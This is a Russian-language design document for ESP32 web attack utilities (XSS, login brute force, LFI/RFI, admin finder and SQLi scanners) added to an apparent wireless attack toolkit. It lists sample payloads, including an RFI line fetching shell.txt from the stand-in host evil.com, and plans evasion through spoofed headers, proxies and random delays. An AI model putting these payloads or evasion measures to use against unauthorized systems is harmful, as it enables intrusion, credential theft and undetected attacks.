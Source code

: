 # Архитектура и Дизайн Web Exploit Утилит для ESP32

## 1. Обзор

Этот документ описывает архитектуру и дизайн для набора утилит веб-эксплойтов, предназначенных для запуска на ESP32. Утилиты будут интегрированы в существующий веб-интерфейс проекта.

## 2. Компоненты Системы

Система будет состоять из следующих основных компонентов:

*   **Веб-интерфейс (Frontend)**: Реализован на HTML, CSS и JavaScript. Будет расширен для управления новыми утилитами и отображения результатов.
*   **Бэкенд ESP32 (Backend)**: Реализован на C++ с использованием Arduino ESP32 framework. Будет содержать логику для выполнения тестов на уязвимости.
*   **Модули Утилит**: Каждый тип атаки (XSS, Form Brute, LFI/RFI, Admin Finder, SQLi) будет реализован как отдельный модуль на стороне ESP32.

## 3. Дизайн Веб-интерфейса

В существующий `index.html` будет добавлен новый раздел `<section id="web-exploit-controls">`.
Этот раздел будет содержать:

*   Общее поле для ввода целевого URL/IP: `<input type="text" id="web-target-url">`.
*   Отдельные подсекции для каждой утилиты, включающие:
    *   Специфичные поля ввода (например, целевой параметр для XSS, URL формы логина, параметры для LFI/RFI и SQLi).
    *   Кнопки для запуска тестов.
    *   Области для отображения статуса выполнения и результатов (`<div id="xxx-status">` и `<pre id="xxx-results">`).

Стили будут соответствовать существующему `style.css` с возможными дополнениями для новых элементов.
Файл `script.js` (не предоставлен, но предполагается его наличие) будет обновлен для обработки взаимодействия с новыми элементами UI и для связи с бэкендом ESP32.

## 4. Архитектура Бэкенда ESP32

Логика для каждой утилиты будет реализована в отдельных C++ файлах (например, `xss_tester.cpp`, `form_brute.cpp`, и т.д.) с соответствующими заголовочными файлами.

*   **Основной обработчик веб-эксплойтов**: `web_exploit_manager.cpp` / `.h` будет координировать вызовы к конкретным утилитам на основе команд от frontend.
*   **HTTP/HTTPS Клиент**: Утилиты будут использовать библиотеку `HTTPClient` (или аналогичную) для отправки запросов к целевому веб-серверу. Необходимо будет обрабатывать как HTTP, так и HTTPS.
*   **Парсинг ответов**: Логика для анализа ответов от сервера для выявления уязвимостей.

### 4.1. Структура Модулей Утилит (C++)

Каждый модуль утилиты будет иметь примерно следующую структуру:

**`xss_tester.h`**
```cpp
#ifndef XSS_TESTER_H
#define XSS_TESTER_H

#include <Arduino.h>

class XSSTester {
public:
    XSSTester();
    String test(String targetUrl, String targetParameter, const std::vector<String>& payloads);
    // ... другие методы ...
private:
    // ... приватные члены и методы ...
};

#endif
```

Аналогичные структуры будут для `FormBrute`, `LFIRFIScanner`, `AdminPanelFinder`, `SQLInjectionScanner`.

### 4.2. Обработка Запросов

ESP32 будет принимать команды от веб-интерфейса (вероятно, через WebSocket или HTTP эндпоинты, которые нужно будет определить).
Пример команды: `START_XSS;http://target.com;param_name`

## 5. Реализация Утилит

*   **XSS Тестер**:
    *   Принимает URL и опционально имя параметра/поля.
    *   Отправляет HTTP GET/POST запросы с различными XSS пейлоадами (например, `<script>alert(1)</script>`, `"><svg onload=alert(1)>`) в указанные параметры или во все найденные параметры форм.
    *   Анализирует ответ на наличие отраженного пейлоада или признаков выполнения.
*   **Form Brute**:
    *   Принимает URL формы логина, имена параметров для логина и пароля.
    *   Использует предоставленный словарь (встроенный короткий или с microSD).
    *   Перебирает комбинации логин/пароль, отправляя POST запросы.
    *   Анализирует ответы на признаки успешного/неуспешного входа.
*   **LFI/RFI Сканер**:
    *   Принимает URL и имя параметра для проверки (например, `?page=`, `?file=`).
    *   Тестирует пейлоады для LFI (например, `../../etc/passwd`, `../../../../windows/win.ini`) и RFI (например, `http://evil.com/shell.txt`).
    *   Анализирует ответы на наличие содержимого файлов или признаков выполнения удаленного кода.
*   **Admin Panel Finder**:
    *   Принимает базовый URL.
    *   Перебирает список популярных путей к админ-панелям (например, `/admin`, `/administrator`, `/login.php`, `/wp-admin`).
    *   Проверяет HTTP статусы ответов (200 OK, 403 Forbidden, 401 Unauthorized могут указывать на наличие панели).
*   **SQL-инъекция Мини-сканер**:
    *   Принимает URL и имя параметра для проверки.
    *   Отправляет базовые SQLi пейлоады (например, `' OR 1=1 --`, `" OR 1=1 --`, `1' OR '1'='1`).
    *   Анализирует ответы на наличие ошибок SQL, изменений в контенте или поведении страницы.

## 6. Безопасность и Анонимность

*   **User-Agent**: Возможность установки случайного или кастомного User-Agent для HTTP запросов.
*   **Referer**: Возможность управления заголовком Referer (удаление или подмена).
*   **Прокси**: Рассмотреть возможность (если ресурсы ESP32 позволят) базовой поддержки HTTP/SOCKS прокси для маскировки IP-адреса ESP32. Это сложная задача для ESP32.
*   **Задержки**: Введение случайных задержек между запросами для усложнения обнаружения.
*   **Очистка данных**: Не хранить чувствительные данные дольше необходимого.
*   **Предупреждения**: Отображать четкие предупреждения об этическом использовании утилит.

## 7. Хранение Данных

*   **Словари для Form Brute**: Короткий словарь может быть встроен в код. Для больших словарей потребуется поддержка microSD карты и функционал для чтения с нее.

## 8. Связь Frontend-Backend

Будет использоваться существующий механизм связи (предположительно WebSocket, судя по структуре подобных проектов для ESP32 с веб-интерфейсом).

*   **Команды от Frontend к Backend (примеры)**:
    *   `WEB_XSS_START;{target_url};{param_to_test}`
    *   `WEB_FORM_BRUTE_START;{target_url};{login_url};{user_param};{pass_param};{dictionary_type}`
    *   `WEB_LFI_RFI_START;{target_url};{param_to_test}`
    *   `WEB_ADMIN_FIND_START;{target_url}`
    *   `WEB_SQLI_START;{target_url};{param_to_test}`
    *   `WEB_EXPLOIT_STOP_ALL`
*   **Сообщения от Backend к Frontend (примеры)**:
    *   `WEB_XSS_STATUS;{status_message}`
    *   `WEB_XSS_RESULT;{found_vulnerability_details}`
    *   `WEB_FORM_BRUTE_PROGRESS;{percentage_complete};{current_attempt}`
    *   `WEB_FORM_BRUTE_SUCCESS;{username};{password}`
    *   Аналогичные сообщения для других утилит.

## 9. Интеграция с Существующим Кодом

Новые C++ файлы будут добавлены в проект. Основной `.ino` файл будет инициализировать и управлять новым `WebExploitManager`.
Функции из `utilities.h/.cpp` (например, `parseMacAddress`) нерелевантны для веб-эксплойтов, но общие утилиты для работы со строками или HTTP могут быть добавлены или использованы.
Существующие структуры атак (`DeauthStats`, `BeaconSpamStats` и т.д. из `data_structures.h`) не будут напрямую использоваться, но новые структуры для хранения состояния и результатов веб-атак могут быть добавлены в `data_structures.h` или в специфичные для веб-эксплойтов заголовочные файлы.

## 10. Дальнейшие Шаги

1.  Создать базовые C++ классы для каждой утилиты.
2.  Реализовать HTML разметку для нового раздела в `index.html`.
3.  Начать реализацию логики для XSS Тестера.

